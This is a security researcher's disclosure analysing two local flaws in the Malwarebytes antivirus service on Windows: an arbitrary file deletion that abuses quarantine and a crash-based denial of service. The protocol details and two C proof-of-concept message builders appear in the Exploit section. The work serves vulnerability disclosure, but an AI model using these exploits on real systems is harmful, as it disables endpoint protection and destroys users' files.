

Analysis of vulnerabilities found in Malwarebytes Antivirus
===========================================================
*MBAM Service is prone to a Denial of Service and an Arbitrary File Deletion from a standard user*
---------------------------------------------------------------------------------------------

*by Nicolas Delhaye, Vulnerability Researcher [@_Homeostasie_](https://x.com/_homeostasie_)*

# Context
As part of this analysis, we are going to study how a non-privileged user will be able to leverage a design issue to establish a privileged access with a critical component of the Malwarebytes Antivi-rus for Windows. The component involved is known as *Malwarebytes Service* (***MBAMService.exe***) and runs with ***Authority NT/System*** rights. This one is aimed, among other things, to collect any threats coming from monitored processes and then to achieve the more appro-priated action according to this information. 

This analysis is based on the version *v4.3.0.21* of *Malwarebytes* setup installation but the vulnera-bility has also been successfully tested on the latest version (*v4.4.0.220*) available from the website. 

Moreover, as we do not seek to perform in-depth analysis on the software architecture, binaries/services roles and functionalities offered, some considerations may be approximate. Indeed, our main goal is to identify weaknesses from an attacker point of view to contribute in securing this product and by the way, end customers. 

# Basic Architecture involving the vulnerabilities
## Description of the *Exploit Protection* feature
One of the main features offered by the Malwarebytes Antivirus is the “Exploit Protection” which guards against exploits targeting protected applications. When you launch apps, exploit protection also launches as a shield. This protection should help to detect and block attacks on these applications through the two following options:

- **Block potentially malicious email attachments (Outlook desktop only)**: Blocks malicious file attachments sent through your Outlook app.
- **Block penetration testing attacks**: Blocks exploits used by third-party tests.

By default, a list of protected applications is defined by the vendor knowing that the end user keeps the ability to add, turn on or off and delete any of them. An easy way to view what this default list is without going into reverse-engineering or debugging tasks is to access the “Exploit Protection” menu and then to click on the “Manage protected applications” button from the Malwarebytes’ user interface. 

Please see below, a screenshot showing us what this menu looks like:


From the picture above, applications such as PDF readers or browsers are protected but more than 50 executables will be monitored by default. We could also ask about what kind of exploit this feature can help to protect us and the answer is available from the Advanced Settings menu of the *Exploit Protection* option where you will see protection mechanism such as:
- DEP enforcement;
- Anti-heap spraying enforcement;
- Dynamic anti-heap spraying enforcement;
- BottomUp ASLR enforcement;
- Disable loading of VBScript libraries;
- Anti-Exploit fingerprint attempt detection;

## Components involved into the *Exploit Protection* feature

At this stage, we would like to know how the *Exploit Protection* feature is put in place. In fact, as soon as a protected process will start, a DLLs named ***mbae64.dll*** which stands for Malwarebytes Anti-Exploit 64 bits will be injected into it. Of course, the 32-bit version also exists to target processes compiling with this architecture. 

Please see below, the Malwarebytes Anti-Exploit DLL properties:


As this analysis is not intended to study how Malwarebytes developers had implemented these Anti-Exploit methodologies, no more details will be supplied about this subject. However, what we interest us as a vulnerability researcher is to find out a link between a protected process running with unprivileged right and the MBAM Service running with Authority NT/System rights. Indeed, some specific actions might require the intervention of this privileged service. Actually, once the DLL is loaded into the targeted process, a communication channel relying on the use of ALPC is established. The protected process acts as a client and the MBAM Service as a service. The latter is aimed to collect any information occurring in the monitored process so as to making actions from logging a message to put a suspected file in quarantine or even killing the protected application.

Please see below, a basic architecture of the interaction between a protected process and the MBAM service:


From an attacker point of view, it will be really interesting to:

- Firstly, figure out if a security mechanism is implemented to prevent unauthorized processes to access this relevant communication channel towards a privileged process. If not, we should make reverse engineering on the protocol used;
- Secondly, find out the functionalities that will be offer to us once a *legitimate* access has been retrieved. We should also look at how to trig them;
- Thirdly, look for vulnerabilities resulting in Denial of Service or Local Privilege Escalation thanks to, for example, traditional memory corruption vulnerabilities;

The last two point will be treated into the *vulnerabilities* chapter but first of all, let’s bring to light the first aspect.

## Security and Protocol used through the ALPC channel
First of all, noticing the presence of an ALPC channel by *Malwarebytes Antivirus* can be merely achieve by looking at the handles opened by the MBAM Service (***MBAMService.exe***).

Please see below, a screenshot coming from the Process Explorer tool:


Before using this ALPC channel for discovering vulnerabilities or playing with inner functionalities, we need to determine if there is any security mechanism implemented to prevent anyone to use this relevant communication channel. After doing a bit of reverse engineering about how a new connection is managed, we haven’t seen no authentication mechanism. With this knowledge, we would like to figure out the two following aspects:

- A way to easily communicate with the service;
- The protocol used to trigger interesting functions;

### ALPC communication - Reusing a Malwarebytes component
Working with ALPC is not so straightforward because firstly, all these APIs are *undocumented* and secondly, because of the maximum size of data that can be transferred (0x130 bytes), a more complex architecture must be thought to send larger data blocks. In that case, you will have to deal with memory mapped section, created either by a *NtCreateSection()* or a *CreateFileMapping()* call. To know a little more about this subject, please refers to LPC Communication **[1]**.

But before we go any further, we would like to see what a legitimate communication looks like in terms of resources used between a protected application and the MBAM service. It is not really obvious to monitor this activity because you need to catch this information at the right time as soon a message is sent. From our experimentations, we have noticed at least the three following resources (two events and one section) created by the client and then used by the server:

- \BaseNamedObjects\\**MBAE_IPC_PROTECTION_CHANNELAnswerBuf289$9ccEvent1**
- \BaseNamedObjects\\**MBAE_IPC_PROTECTION_CHANNELAnswerBuf289$9ccEvent2**
- \Sessions\1\BaseNamedObjects\\**MBAE_IPC_PROTECTION_CHANNELAnswerBuf289$9ccMap**

Where 0x9cc is the PID of the client process and 289 is probably a message number or connection ID coming from a pseudo-random value.

A shared memory is used because ALPC messages between the client and server side are much bigger than a size of 0x130 bytes. Moreover, events are very likely used as a mechanism synchronization between the two processes for accessing mutual data from the shared memory. So we are faced with making a complex development to provide a Proof of Concept program into a short period of time. That’s why we are preferred to bypass this hardship by reusing as better as possible the original code of a Malwarebytes DLL (***mbae64.dll***). Actually, looking at an exported function or if not, at an internal function that will be located from a hard-coded offset seemed us a good approach. Actually, the latter way has been required leading to do reverse engineering for finding out the function prototype.

Please see below, a screenshot of IDA disassembler highlighting the internal function implemented into ***mbae64.dll*** to send IPC message by relying on ALPC mechanism:


Which gives us the following function prototype:


At this point, being able to retrieve the offset of this function into the ***mbae64.dll*** and to call it right away with the right arguments allow us not to deal with any issues such as creating the events, the shared memory and the mutual access of these resources.

### ALPC communication - The proprietary protocol
Once the ***mbae64.dll*** is loaded into our process, we are now able to send data to the MBAM service by relying of an internal function. This data will be received and managed by the *mbae-api-na.dll* module loaded by the MBAM Service (***MBAMService.exe***). 

We would like to understand the underlying protocol so that our message is received well and can be:
- Parsed properly to reach inner functionalities;
- Not parsed in a right way to cause unexpected behaviours;

First, please see below the message header we learned from reverse-engineering:


Where the meaning of the fields is as follow:

- ***dwChecksum*** is a checksum to validate the integrity of the message;
- ***dwTime*** is the time when the message is sent;
- ***dwFunctionCode*** is a code defining the functionality currently called;
- ***dwFunctionCode*** is the total amount of data send (included the header);
- ***dwPID*** is the sender’s PID;

As a remark, if the time elapsed between the message sent by the client and received by the server is more than 5 seconds, the message will be discarded. It may be a little disturbing when you are debugging both processes at the same time and does not receive the message when expected.

From the above C structure, we can spot the ***dwChecksum*** field that will likely have a strong impact on the validity of message received. In fact, the message will be rejected if this value is incorrect. Consequently, we need to figure out what is the algorithm behind. 

Please see below, a screenshot of IDA disassembler highlighting how this checksum is computed:


The checksum algorithm is a mixing of logical operations that could be translated in C language as follow:


Until there, it just lacks us the contents of the *g_dwConstantTable* variable. 

Please see below, the extract of the constants coming from a disassembler and formatted in a C array:


Finally, someone who would have been familiar with such an algorithm and such constants would have noticed that this is a CRC32 checksum.

At this stage, we have all we need to begin our vulnerability research by focusing either on reachable functions that will be executed with ***Authority NT/System*** rights or on bugs leading to an expected behaviour such as memory corruption resulting in crashes or local privilege escalation.

# The two vulnerabilities identified
## Arbitrary File Deletion vulnerability
First, this arbitrary file deletion vulnerability is related to the ability of the Antivirus to put a suspected file in quarantine. This task is managed on demand by the MBAM Service through a specific request allowing to block access on a file. In fact, the ***mbae64.dll*** module, loaded into a protected application, is in charge of checking some abnormal behaviours occurring into the monitored process and to react in an appropriated way that can consist in sending a message to the service by putting a malicious file in quarantine. In our case, we can exploit this feature to delete any arbitrary file on the file system by impersonating the ***Authority NT/System*** rights of the service from a standard user. All we need to know is how to craft such a message. 

The function code 0x2C0 is the one that seems used to block access on a file but others function codes could be used with the same effects to respond to specific actions.

The message to be formatted is as follows:


From the figure above, here are the most important fields to fill out:

- ***Checksum*** field which must be the CRC32 of the message;
- ***FunctionCode*** which must be set to 0x2C0;
- ***DataSize*** which must be set to 0x1EA8;
- ***FileNameToQuarantine*** which must be the full pathname of the file to put in quarantine;

As you would have probably understood, the file is neither deleted from the file system nor put in the Windows trash but moved into an another place for quarantine files and managed by the Malwarebytes Antivirus. Either way, the targeted file is not where it should be it and becomes inaccessible.  

## Denial of Service vulnerability
This Denial of Service relies on the ability to communicate with the MBAM service through the ALPC channel and to craft unexpected frame which can cause an unexpected parsing leading to a crash of the service. More precisely, the invalid parameter handler is invoked by *wcscpy_s* **[2]** when the *FullFileNamePath* parameter is especially crafted without NULL byte into the ALPC proprietary protocol. This issue leads the *wcscpy_s* API to call the currently invalid parameter handler routine that is by default, the *_invoke_watson* method which causes the application to crash that is, terminate and generate a mini-dump.

Please see below, a screenshot of the disassembling code which causes the crash:


From the above picture, we can notice that the data coming from our own ALPC request is directly used as the source string to be copied into the destination string. What we need to do is just fill the source string with 0x208 non-null bytes. As the destination string must be large enough to hold the source string and its terminating null character, we get our *_invoke_watson* method call resulting in a crash of the MBAM service. 

The message to be formatted is as follows:


From the figure above, here are the most important fields to fill out:

- ***Checksum*** field which must be the CRC32 of the message;
- ***FunctionCode*** which can be set to 0x2C0 but others values work as well;
- ***DataSize*** which must be set to 0x1420;
- ***FullFileNamePath*** which must be the full pathname of the file filled with 0x208 non-null bytes;

# Exploit
This exploit requires to compile a Windows executable that will use the ***mbae64.dll*** Malwarebytes module for making easier the development of a channel communication between the exploit and the MBAM Service. As there are any exported functions available to access such a useful API, we have hard-coded an offset towards an internal function coming from the v1.13.4.345 version.  That’s why, if the DLL version is updated, we need either to have a copy of this DLL or compute again the right offset to the function. 

The exploit should be named as the name of a protected file from the default list. Otherwise there is an issue while the DLL is loading. That is probably due to the fact that there are some ALPC exchanges aimed at confirming whether the process must be monitored or not. 

## Sources
Please see below, a C code function that builds an ALPC message resulting in an Arbitrary File Deletion:

```c
unsigned char * BuildFileBlockedMessage(DWORD dwPID, WCHAR *wcModuleFileName, WCHAR *wcQuarantineFileName, DWORD *pdwMessageSize)
{
	ALPC_MSG_HEADER_T *ptAlpcMsgHeader = NULL;
	unsigned char *message = NULL;
	DWORD dwMessageSize = 0x1EA8;
	WCHAR wcUserName[MAX_PATH];
	DWORD dwUserNameLength = MAX_PATH;

	message = malloc(dwMessageSize);
	if (message == NULL)
	    return NULL;

	memset(message, 0, dwMessageSize);

	wcsncpy((WCHAR*)(message + sizeof(ALPC_MSG_HEADER_T)), wcModuleFileName, MAX_PATH);

	if (GetUserName(wcUserName, &dwUserNameLength))
	    wcsncpy((WCHAR*)(message + sizeof(ALPC_MSG_HEADER_T) + 0x208), wcUserName, MAX_PATH);		

	wcsncpy((WCHAR*)(message + sizeof(ALPC_MSG_HEADER_T) + 0x64C), wcQuarantineFileName, MAX_PATH);

	ptAlpcMsgHeader = (ALPC_MSG_HEADER_T *)message;
	ptAlpcMsgHeader->dwChecksum = 0;
	ptAlpcMsgHeader->dwFunctionCode = 0x2c0;
	ptAlpcMsgHeader->dwDataSize = dwMessageSize;
	ptAlpcMsgHeader->dwPID = dwPID;
	ptAlpcMsgHeader->dwTime = _time32(NULL);
	ptAlpcMsgHeader->dwChecksum = ComputeChecksum(message, dwMessageSize);

	*pdwMessageSize = dwMessageSize;

	return message;
}
```

Please see below, the function in C language that build an ALPC message resulting in a Denial of Service:

```c
unsigned char * CrashMBAMServiceMessage(DWORD *pdwMessageSize)
{
	ALPC_MSG_HEADER_T *ptAlpcMsgHeader = NULL;
	unsigned char *message = NULL;
	DWORD dwMessageSize = 0x1420;

	message = malloc(dwMessageSize);
	if (message == NULL)
		return NULL;

	memset(message, 0, dwMessageSize);

	for (int i = 0; i < 0x140c; i++)
	{
		message[sizeof(ALPC_MSG_HEADER_T) + i] = (unsigned char)i;
	}

	ptAlpcMsgHeader = (ALPC_MSG_HEADER_T *)message;
	ptAlpcMsgHeader->dwChecksum = 0;
	ptAlpcMsgHeader->dwFunctionCode = 0x2c0;
	ptAlpcMsgHeader->dwDataSize = dwMessageSize;
	ptAlpcMsgHeader->dwPID = 0x66;
	ptAlpcMsgHeader->dwTime = _time32(NULL);
	ptAlpcMsgHeader->dwChecksum = ComputeChecksum(message, dwMessageSize);

	*pdwMessageSize = dwMessageSize;

	return message;
}
```

## Demonstration
This POC exploits the vulnerability on the following environment:

•	*Malwarebytes* with *MBSetup_v4.3.0.210* version which is deployed on *Windows 10 Pro 1903*
•	*Malwarebytes* with *MBSetup_v4.4.0.220* version which is deployed on *Windows 10 Pro 1903*

First of all, please see below a screenshot that gives us the user information from which the exploit is launched:


Please see below, a screenshot highlighting the Arbitrary File Deletion vulnerability coming from an abuse of the internal quarantine functionality:


Please see below, a screenshot highlighting the Denial of Service that is occurring (*WerFaultSecure.exe* is working before ***MBAMService.exe*** is definitively killed).



Note that as soon as the service is crashed, it is started again. You need to send the same request, for example, every one second to kill the ***MBAMService.exe*** service as soon as it becomes available.

# Conclusion
This issue targets a critical component of the *Malwarebytes* Antivirus, that is the *MBAM Service*. From attackers’ point of view, being able to communicate with it allows them to call inner functionalities or look at traditional memory vulnerabilities. Making this service unavailable results in putting at risk the endpoint station that will not be protected against cyber threats. Both malicious or suspicious executables and exploit attempts will no longer detected. Moreover, we can also build a specific request allowing to put any arbitrary file in quarantine, that results in an arbitrary file deletion vulnerability.

# References
**[1]** LPC Communication  
http://www.zezula.net/en/prog/lpc.html

**[2]** MSDN strcpy_s, wcscpy_s, _mbscpy_s  
https://docs.microsoft.com/en-us/previous-versions/td1esda9(v=vs.140)

